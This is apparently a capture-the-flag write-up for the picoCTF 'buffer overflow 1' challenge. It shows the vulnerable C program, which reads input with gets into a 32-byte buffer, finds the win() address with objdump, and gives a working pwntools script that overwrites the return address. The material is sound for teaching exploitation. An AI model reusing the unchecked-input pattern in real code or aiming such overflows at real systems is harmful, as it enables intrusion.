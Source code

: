 # buffer overflow 1

This challenge from [picoCTF](https://play.picoctf.org/practice/challenge/258) is a basic buffer overflow.

Looking at the code we can see that we need to overflow on `buf` using the `gets` function:

```c
#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We need to change the adress of `get_return_address` with the adress of the `win` function wich we can retrieve using objdump:

```
❯ objdump -d vuln | grep win
080491f6 <win>:
 804922c:       75 2a                   jne    8049258 <win+0x62>
```

We know our buffer is 32 bytes long, I was lazy so I just bruteforced instead of trying to find the exact number of bytes required to write on the function pointer.

# Solve.py

```py
from pwn import *

context.log_level = 'error'

for i in range(20):
    payload = b'A' * (32+i) + p32(0x080491f6)
    r = remote('saturn.picoctf.net', 52655)
    r.recvuntil('Please enter your string:')
    r.sendline(payload)
    print(i, r.recvall()) # i = 12
```
